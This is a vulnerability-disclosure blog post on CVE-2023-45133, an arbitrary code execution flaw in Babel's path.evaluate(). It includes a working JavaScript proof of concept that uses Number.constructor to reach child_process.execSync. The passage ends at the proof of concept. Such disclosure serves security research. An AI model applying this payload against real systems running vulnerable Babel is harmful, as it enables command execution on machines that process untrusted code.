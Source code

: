 ```yaml
---
layout: post
title:  "CVE-2023-45133: Finding an Arbitrary Code Execution Vulnerability In Babel"
authors: william_khem_marquez
date:   2023-10-18 0:00:00
share_text: "CVE-2023-45133: Finding an Arbitrary Code Execution Vulnerability In Babel"
---
```


<head>
  <link rel="canonical" href="https://steakenthusiast.github.io/2023/10/11/CVE-2023-45133-Finding-an-Arbitrary-Code-Execution-Vulnerability-In-Babel/" />
</head>

On October 10th, 2023, I stumbled upon an arbitrary code execution vulnerability in [Babel](https://github.com/babel/babel/), which was subsequently assigned the identifier CVE-2023-45133. In this post, I’ll walk you through the journey of discovering and exploiting this intriguing flaw.



:::tip
This article was originally published on [William Khem Marquez's blog](https://steakenthusiast.github.io/). He also published a series on using Babel to deobfuscate JavaScript code: check it out!
:::

Those who use Babel for reverse engineering/code deobfuscation love using Babel because of all of the built in functionality it provides. One of the most useful features is the ability to statically evaluate expressions using `path.evaluate()` and `path.evaluateTruthy()`. I have written about this in the previous articles:

- [Constant Folding](https://steakenthusiast.github.io/2022/05/28/Deobfuscating-Javascript-via-AST-Manipulation-Constant-Folding/)
- [A Peculiar JSFuck-style Case](https://steakenthusiast.github.io/2022/06/14/Deobfuscating-Javascript-via-AST-Deobfuscating-a-Peculiar-JSFuck-style-Case/)

Wait, did I say _statically evaluate_?

## The Exploit

Before delving into the details, let’s take a look at the proof of concept I came up with:

### Proof of Concept

```javascript
const parser = require("@babel/parser");
const traverse = require("@babel/traverse").default;

const source = `String({  toString: Number.constructor("console.log(process.mainModule.require('child_process').execSync('id').toString())")});`;

const ast = parser.parse(source);

const evalVisitor = {
  Expression(path) {
    path.evaluate();
  },
};

traverse(ast, evalVisitor);
```
